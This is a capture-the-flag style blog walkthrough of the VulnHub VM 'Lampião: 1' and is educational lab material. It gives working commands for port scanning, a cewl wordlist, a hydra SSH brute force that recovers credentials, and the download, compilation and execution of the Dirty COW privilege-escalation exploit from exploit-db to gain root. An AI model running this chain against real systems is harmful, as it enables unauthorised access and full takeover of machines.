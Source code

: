 ```yaml
---
layout: post
date: 2018-08-06 10:42:58 +0000
last_modified_at: 2018-08-06 13:22:13 +0000
title: "Lampião: 1 Walkthrough"
subtitle: "Hero or Villain?"
category: Walkthrough
tags: [VulnHub, "Lampiao"]
comments: true
image:
  feature: lampiao-1-walkthrough.jpg
  credit: Voltordu / Pixabay
  creditlink: https://pixabay.com/en/darth-vader-star-wars-geek-1207142/
---
```


This post documents the complete walkthrough of Lampião: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

"Captain" Virgulino Ferreira da Silva, better known as **Lampião**, was the most famous bandit leader of the Cangaço. The aim is to get `root`.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?   syn-ack ttl 64
| fingerprint-strings:
|   NULL:
|     _____ _ _
|     |_|/ ___ ___ __ _ ___ _ _
|     \x20| __/ (_| __ \x20|_| |_
|     ___/ __| |___/ ___|__,_|___/__, ( )
|     |___/
|     ______ _ _ _
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
```

`nmap` finds `22/tcp`, `80/tcp` and `1898/tcp` open—and there's something interesting behind `80/tcp`.

![Son of a Bitch](/assets/images/posts/lampiao-1-walkthrough/8b3f5f0a.png)

"Fi duma égua" is a not-so-elegant word for referring to someone. I leave it for the curious reader to find out what it means. :laughing:

## Drupal

Another service worth exploring is Drupal, which runs behind `1898/tcp`. Here's how it looks like.

![Drupal](/assets/images/posts/lampiao-1-walkthrough/5e40c98e.png)

To be honest, I'm always excited to see non-English language in display because that means I can generate a wordlist from it. There's always a high chance of getting a password judging from my experience.

Let's use `cewl` to generate a wordlist from the post "**Lampião, herói ou vilão do Sertão?**". The command goes like this.

```
# cewl -w cewl.txt http://192.168.10.130:1898/?q=node/1
# wc -l cewl.txt
835 cewl.txt
```

## Hail Hydra

Notice the two usernames below: `tiago` and `eder`.

![Usernames](/assets/images/posts/lampiao-1-walkthrough/ba3ec0df.png)

Let's put them into a username list and go with `hydra` and the generated wordlist. Perhaps we can get lucky with SSH on our first attempt?

```
# echo tiago > usernames.txt
# echo eder >> usernames.txt
# hydra -L usernames.txt -P cewl.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.10.130
[22][ssh] host: 192.168.10.130   login: tiago   password: Virgulino
[STATUS] attack finished for 192.168.10.130 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Lucky indeed.

## Low-Privilege Shell

Not too shabby.

![shell](/assets/images/posts/lampiao-1-walkthrough/bd92b620.png)

## Privilege Escalation

Let's perform some basic enumeration to determine what we're dealing with.

```
$ uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
```

I'm going to use a [script](https://github.com/mzet-/linux-exploit-suggester) to suggest a couple of local privilege escalation exploits relevant to the distribution and kernel.

```
$ wget -q -O /tmp/linux-exploit-suggester.sh https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
$ chmod +x /tmp/linux-exploit-suggester.sh
$ /tmp/linux-exploit-suggester.sh
...
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Let's test the exploit out.

```
$ wget -q -O /tmp/40847.cpp https://www.exploit-db.com/download/40847.cpp
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
$ ./dcow -s
```

![root](/assets/images/posts/lampiao-1-walkthrough/46ebbd22.png)

Boom.

## What's the Flag (WTF)?

![Flag](/assets/images/posts/lampiao-1-walkthrough/caa45484.png)

:dancer:

I wonder what's the significance of `lampiao.jpg` to the flag. Here's what `lampiao.jpg` looks like.

![Lampião](/assets/images/posts/lampiao-1-walkthrough/lampiao.jpg)

## Afterthought

The VM isn't hard. Don't think too deep, too far. Don't go down the rabbit hole. Tiago (the creator of this VM) laid down a bunch of teasers that may steer you off course.

One good example is `qrc.png` in the Drupal home directory.

![qrc.png](/assets/images/posts/lampiao-1-walkthrough/qrc.png)

It was decoded to "Try harder! muahuahua" :unamused:

Another example was the removal of read permissions of `/etc/cangaco/lampiao.*`. That's a good one. It piqued my curiosity so much I almost pulled out all my hair trying to read them.

[1]: https://www.vulnhub.com/entry/lampiao-1,249/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/
